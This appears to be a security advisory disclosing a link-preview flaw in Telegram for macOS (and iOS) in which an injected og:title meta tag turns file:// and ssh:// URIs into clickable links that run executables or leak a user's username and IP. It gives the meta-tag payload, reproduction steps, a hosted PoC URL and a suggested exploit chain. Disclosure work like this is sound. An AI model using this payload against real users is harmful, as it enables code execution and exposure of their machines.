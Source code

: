 **Summary**

In **Telegram for macOS v4.9.155353** (and below) URL parsing logic in Telegram for macOS platform allows running arbitrary executables and applications URI schemes via links injected into the website's preview.

**PoC**

1. Send a link to `exploit.html` - a regular HTML file with `<meta property="og:title" content="file://google.com/bin/sh ssh://google.com/x" />` tag
2. Website preview renders `file://google.com/bin/sh` and `ssh://google.com/x` as links
3. Click on the rendered links behaves as `NSWorkspace.open` util -> if points to executable -> code execution.
4. Click on `ssh://` link -> Terminal.app popups with an active ssh session disclosing user's OS username, ip and other details.

**Impact**

The bug could be used for:
1. disclosing info about user's machine -> OS username, IP, etc
2. running arbitrary executables and opening arbitrary files on OS
3. launching arbitrary applications via URI schemes

This bug could be chained with Quarantine issue to open downloaded quarantine-ignored files and chain this into running of attacker-supplied executable.

**Additional Details**

This bug also exists in iOS, PoC is the same. 
Impact possibly limited to URI schemes.

PoC URL -> https://telegram-file-link-1xfcjf27f.now.sh/exploit.html
